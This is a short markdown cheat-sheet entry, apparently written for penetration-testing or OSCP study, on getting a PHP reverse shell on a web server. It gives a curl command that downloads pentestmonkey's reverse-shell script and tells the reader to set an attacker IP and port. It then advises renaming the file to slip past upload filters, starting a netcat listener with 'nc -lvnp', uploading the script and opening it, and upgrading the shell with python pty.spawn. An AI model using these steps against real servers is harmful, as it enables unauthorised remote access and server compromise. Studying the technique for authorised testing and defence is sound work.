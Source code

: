 # PHP reverse shell

First, download the script:

    curl -LO https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Change `ip` and `port` in the script (use `ip addr` for ip, `port` can be anything that's available):

    nano php-reverse-shell.php

Also probably rename, see [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html).

Next, start `nc`:

    nc -lvnp <port>

Finally, upload the script to the server, and open the newly created link.

To upgrade the dumb shell:

    python -c 'import pty; pty.spawn("/bin/bash")'

For even more, see [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
